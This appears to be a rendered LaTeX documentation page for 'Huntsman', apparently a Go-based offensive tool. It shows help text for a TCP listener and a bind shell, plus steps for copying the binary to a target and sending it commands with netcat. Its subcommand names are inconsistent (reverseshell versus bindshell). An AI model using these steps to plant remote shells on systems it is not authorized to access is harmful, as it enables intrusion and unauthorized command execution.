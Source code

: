 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
huntsman listen --help

Listen to incoming TCP requests on a port

Usage:
  huntsman listen [flags]

Flags:
  -h, --help          help for listen
      --port string   Port at which listener should run (default "8192")
\end{verbatim}
An example command to turn Huntsman into a TCP listener is:\\
\verb|huntsman listen port=8192| \\	
\textit{NOTE: Don't forget to open the port on which you intend to run the listener, otherwise the client won't be able to connect to it.}

\subsection{Bind shell}
Bind shells have the listener running on the target and the attacker connect to the listener in order to gain a remote shell.\\
For using this funtionality, first you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using \verb|./<binary-name> reverseshell --port <port-number>|. Now the listener is
running to which you will be sending instructions to execute.   

We will be using \textbf{netcat} as the client for 
sending the commands over the network.  
\verb|nc <address-of-target> <port-number>|

\begin{verbatim}
huntsman bindshell --help 

This server listens for command over the internet and executes it
	in local shell

Usage:
  huntsman bindshell [flags]

Flags:
  -h, --help          help for bindshell
      --port string
                      	The port on which this bind shell listen for coommands
                      	 (default "13337")
\end{verbatim}

Youtube link for the \href{https://youtu.be/eE0k0GVZXyc}{video demonstration of the working of the bind shell}\\
\textit{NOTE: I've used the term reverse shell for bind shell in the video, which is wrong, in reverse shell the victim machine connects with the client for taking commands}
\end{document}
